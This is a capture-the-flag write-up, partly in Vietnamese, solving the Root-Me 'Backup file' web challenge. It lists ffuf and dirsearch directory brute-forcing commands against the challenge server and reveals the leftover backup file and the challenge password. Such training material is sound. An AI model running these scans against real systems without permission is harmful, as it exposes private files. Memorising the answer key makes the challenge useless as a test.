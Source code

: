 # [Backup file](https://www.root-me.org/en/Challenges/Web-Server/Backup-file)

## Solutions

- Sử dụng ffuf để Directory Bruteforcing:
  - `ffuf -w /path/to/wordlists -u http://challenge01.root-me.org/web-serveur/ch11/FUZZ`
- Hoặc sử dụng dirsearch:
  - `python dirsearch.py -u http://challenge01.root-me.org/web-serveur/ch11/`

Kết quả:

- `/web-serveur/ch11/index.php~`: status code 200
- Password trong file `index.php~`: `OCCY9AcNm1tj`

## New Knowledge

Publicly accessible backups and outdated copies of files can provide attackers with extra attack surface. Depending on the server configuration and file type, they may also expose source code, configuration details, and other information intended to remain secret.

## References

- <https://portswigger.net/kb/issues/006000d8_backup-file>
- <https://github.com/ffuf/ffuf>
- <https://github.com/maurosoria/dirsearch>
- metasploit
